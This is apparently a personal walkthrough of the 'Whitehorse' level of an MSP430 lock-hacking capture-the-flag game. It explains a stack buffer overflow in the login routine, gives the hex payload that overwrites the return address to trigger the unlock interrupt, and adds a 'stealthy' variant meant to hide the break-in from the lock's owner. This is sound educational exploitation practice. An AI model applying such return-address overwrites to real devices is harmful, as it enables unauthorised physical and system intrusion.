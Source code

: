 # Whitehorse

**Date Completed:** 10/11/2025

Started this challenge by inspecting the code - where we see immediately a call to `login()`, then in `login` we have the usual calls to `puts` followed by `getsn`, and then we see a new method call to `conditional_unlock_door()`.

Inspecting this new method we see a call to the `0x7E` interrupt routine, which from the manual tells us:

> Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.  
Takes one argument: the password to test.

Since the HSM-2 is triggering the lock directly, it seems unlikely that we are able to unlock the deadbolt from here. Back to `login`.

In past exercises we saw where the args to `puts` (buffer and size of buffer) allowed for user to enter far more than 16-characters, and it seems like this is another one of those cases:

```asm
4508:  3e40 3000      mov	#0x30, r14
450c:  0f41           mov	sp, r15
450e:  b012 8645      call	#0x4586 <getsn>
```

Where `r15` is the pointer to the buffer for `getsn` to write the input to (and in this case it is writing the input directly onto the stack - a prime candidate for stack manipulation...), and `0x30 (48)` is the number of bytes `getsn` is allowed to write onto the memory location pointed to by `r15` (excellent).  

So at this point I'm thinking: "we're going to have to craft an input to blow past the 16-byte buffer the program thinks is for the user input, and inject an instruction or address that we want to move control to...". This theory is further confirmed by the fact that upon entering `login` we see the following instruction:

```asm
44f4:  3150 f0ff      add	#0xfff0, sp
```

which essentially subtracts 0xF (16) from the stack pointer (I know adding 0xFFF0 instead of sub #0xF is not intuitive) to make room for where the user input is going to go.

The fact that the user buffer space is allocated as the first instruction means that the end of the buffer is right next to the return address from the `call` instruction from `main`. So we are going to have something like this for the stack layout:

```sh
3a70 0000 0000 0000 0000 0000 0000 0000 0000  ................
     └─ sp
3a80 3c44 0000 0000 0000 0000 0000 0000 0000  <D..............
     └─ return address from call to <login> from <main>
```

where `3a70 - 3a7f` is the memory reserved for the user input, and `3a80` has the return address for the next instruction to set the `pc` to when `<login>` returns back to `<main>` (remember that when a `call` instruction is invoked, it pushes the memory address for the next instruction onto the stack, and this is what `pc` is set to when `ret` is invoked). In this case the address of the return instruction is `443c`, which is the start of the `<__stop_progExec__>` routine:

```asm
4438 <main>
4438:  b012 f444      call	#0x44f4 <login>
443c <__stop_progExec__>
443c:  32d0 f000      bis	#0xf0, sr
4440:  fd3f           jmp	$-0x4 <__stop_progExec__+0x0>
```

So now I know that I can inject a return address of my choosing and when the `ret` instruction from `login` is invoked, that's what the `pc` will get set to. So what should we set this to?

If we can invoke the `0x7F` interrupt routine we will be able to unlock the deadbolt. On this listing the `INT` code sits at memory address `4532`, so if we make the user input something like `<16-bytes of random data> + 3245`, we should be able to jump to the `INT` routine at the end of `login`:

```asm
4532 <INT>
4532:  1e41 0200      mov	0x2(sp), r14
4536:  0212           push	sr
4538:  0f4e           mov	r14, r15
453a:  8f10           swpb	r15
453c:  024f           mov	r15, sr
453e:  32d0 0080      bis	#0x8000, sr
4542:  b012 1000      call	#0x10
4546:  3241           pop	sr
4548:  3041           ret
```

But now we have another issue, simply replacing the address that `login`'s `ret` instruction will jump to will get us into `INT` but we want to simulate that we called `INT` from a `call` instruction, so we need to make sure we add onto the stack the address that we want `INT` to return to when it hits the `ret` at the end of the method.

So now we have: `<16-bytes of random data> + 3245 + <return address from INT>`.

We can make this address whatever we want, but I want to be cheeky and after the `INT` routine I want the system to print out "Access Granted" to the user, so I'm gong to tell it to return to 

```asm
451c:  3f40 c544      mov	#0x44c5 "Access granted.", r15
```

Next we can tack on the interrupt routine we want to execute `0x7F`:

`11223344556677889900aabbccddeeff + 3245 + 1c45 + 7f00`.

**Solution: in HEX `11223344556677889900aabbccddeeff32451c457f00`.**

```sh
> solve
11223344556677889900aabbccddeeff32451c457f00
```

**Bonus points:**

If you want to be a bit more "stealthy", after jumping back to `login` to print "Access Granted" we can add to the stack the original value of the `ret` instruction to that the program goes back to `__stop_progExec__` and to the owner of the lock they won't know anything nefarious happened to their lock...

`11223344556677889900aabbccddeeff32451c457f0000000000000000000000000000003c44`
